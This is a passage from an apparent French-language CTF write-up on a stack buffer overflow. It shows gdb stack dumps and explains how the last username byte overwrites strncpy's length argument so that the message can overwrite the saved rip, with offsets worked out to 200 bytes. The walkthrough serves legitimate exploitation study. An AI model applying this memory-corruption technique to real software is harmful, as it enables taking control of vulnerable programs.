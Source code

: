 ```
>>: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
>: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>: Msg @Unix-Dude
>>: BBBB

Breakpoint 3, 0x00005555555549a9 in set_msg ()
> (gdb) x $rax+0xb4
0x7fffffffe5b4:	0xffffe5d00000000a
```

Si on reprend l'affichage de notre `stack` précédent :
```
0x7fffffffe500:	0x0000000a42424242	0x0000000000000000
                                 ^
                                 message
0x7fffffffe510:	0x0000000000000000	0x0000000000000000
0x7fffffffe520:	0x0000000000000000	0x0000000000000000
0x7fffffffe530:	0x0000000000000000	0x0000000000000000
0x7fffffffe540:	0x0000000000000000	0x00007ffff7a945da
0x7fffffffe550:	0x0000000000000086	0x000000000000002d
0x7fffffffe560:	0x000000000000000a	0x0000555555554c10
0x7fffffffe570:	0x00007fffffffe6b0	0x00007ffff7a95d45
0x7fffffffe580:	0x00007ffff7dd4260	0x41414141f7a9608f
                                             ^
                                             username (40 octets)
0x7fffffffe590:	0x4141414141414141	0x4141414141414141
0x7fffffffe5a0:	0x4141414141414141	0x4141414141414141
0x7fffffffe5b0:	0x0000004141414141	0x00007fffffffe5d0
                         ^
                         rax+0xb4
0x7fffffffe5c0:	0x00007fffffffe5d0	0x0000555555554abd
                                                     ^
                                                     rip
0x7fffffffe5d0:	0x0000000000000000	0x00007ffff7a3d7ed
0x7fffffffe5e0:	0x0000000000000000	0x00007fffffffe6b8
```
On remarque que cet argument passé à la fonction `strncpy` pour connaitre le nombre d'octets à copier peut-être écrasé par le dernier octet de notre `username`. Nous allons utiliser ce dernier octet pour indiquer à la fonction `strncpy` le nombre d'octet à copier et ainsi écraser la valeur de `rip` avec le `message`.

## Exploit

Il nous faut au préalable déterminer le nombre d'octets à saisir dans le `message`.
```
taille_message = adresse_eip - adresse_buffer_message
               = (rbp + 0x08) - adresse_buffer_message
               = 0x7fffffffe5c8 - 0x7fffffffe500
               = 0xc8
               = 200 (base 10)
```
`200` caractères dans `message` nous permettrons d'atteindre `rip`. Le dernier octet de `username` peut-être `0xff` (`255` en base 10). Une copie de `255` octets sera suffisante pour atteindre `rip`.
